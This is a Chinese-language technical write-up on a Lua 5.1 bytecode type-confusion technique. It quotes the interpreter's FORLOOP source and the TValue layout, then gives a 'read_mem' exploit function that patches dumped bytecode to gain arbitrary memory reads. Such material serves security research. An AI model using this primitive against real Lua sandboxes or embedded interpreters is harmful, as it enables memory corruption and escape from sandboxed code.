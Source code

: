 正常情况下lua在forprep指令会检查参数是否为数字类型，并执行初始化，但是由于字节码被替换为JMP，直接跳过了LUA类型检查，进入forloop指令。

```
case OP_FORLOOP: {
        lua_Number step = nvalue(ra+2);
        lua_Number idx = luai_numadd(nvalue(ra), step); /* increment index */
        lua_Number limit = nvalue(ra+1);
        if (luai_numlt(0, step) ? luai_numle(idx, limit)
                                : luai_numle(limit, idx)) {
          dojump(L, pc, GETARG_sBx(i));  /* jump back */
          setnvalue(ra, idx);  /* update internal index... */
          setnvalue(ra+3, idx);  /* ...and external index */
        }
        continue;
      }

```

forloop指令直接将循环参数转换为lua_Number(double)类型，（因为正常情况下forprep已经检查过类型了），然后执行加法（+ 0），执行dojump return x；返回lua_Number。

LUA使用TValue表示通用数据对象，格式如下:

| Value(64bit) | tt(32bit) | padd(32bit) |
| --- | --- | --- |
| n | `LUA_TNUMBER` |  |
| `GCObject *gc; -> TString*` | `LUA_TSTRING` |  |
| `GCObject *gc; -> Closure*` | `LUA_TFUNCTION` |  |

0x01 LUA任意内存读/写
===============

* * *

```
read_mem = loadstring(string.dump(function(mem_addr) 
  local magic=nil
  local function middle()
    local f2ii, asnum = f2ii, asnum
    local lud, upval
    local function inner()
      magic = "01234567"
      local lo,hi = f2ii(mem_addr)
      upval = "commonhead16bits"..ub4(lo)..ub4(hi)
      lo,hi = f2ii(asnum(upval));lo = lo+24
      magic = magic..ub4(lo)..ub4(hi)..ub4(lo)..ub4(hi)
    end
    inner()
    return asnum(magic)
  end
  magic = middle()
  return magic
end):gsub("(\164%z%z%z)....", "%1\0\0\128\1", 1))  --> move 0,3

```

